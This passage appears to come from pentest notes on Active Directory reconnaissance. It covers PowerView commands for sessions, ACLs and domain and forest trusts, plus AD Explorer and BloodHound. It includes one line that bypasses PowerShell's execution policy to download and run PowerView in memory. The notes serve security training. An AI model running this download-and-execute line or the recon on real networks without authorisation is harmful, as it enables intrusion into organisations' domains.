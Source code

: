   - List sessions on a computer: `Get-NetSession -ComputerName pc1`
  - Find computers where domain admin is logged in and current user has access: `Invoke-UserHunter -CheckAccess`
    - Based on list of machines from DC
    - List of sessions 
    - Logged on users from each machine
- Shares (?) 
- ACL for AD objects: 
  - `Get-ObjectAcl`
  - `Get-ObjectAcl -SamAccountName labuser -ResolveGUIDs`
  - `Get-ObjectACL -AdSprefix 'CN=Administrator,CN=Users' -Verbose`
  - Look for  all interesting ACL entries: `Invoke-ACLScanner -ResolveGUIDs` (write modify)
    - Filter using `IdentifyReference` to identify what current user has interesting access to
- Trust
  - `Get-NetDomainTrust`
  - `Get-NetDomainTrust -Domain example.powershell.local`
- Forest: 
  - `Get-NetForest`
  - `Get-NetForest -Forest powershell.local`
  - Get all domains in current forest:
    - `Get-NetForestDomain`
    - `Get-NetForestDomain -Forest powershell.local`
- Forest Trust
  - `Get-NetForestTrust`
  - `Get-NetForestTrust -Domain example.local`
  
```bash
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomain"
```




### Snapshot for Offline Analysis

- Using [https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
- Download: [https://live.sysinternals.com/](https://live.sysinternals.com/)
- UNC path: `\\live.sysinternals.com\tools`

### [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

- Finds groups and group members of each group.
- Gets Domain computers in the domain.
- Obtain local admins for each computer.
- List Active sessions on each computer.
- And then creates relationships between all these findings.

## Attack Patterns
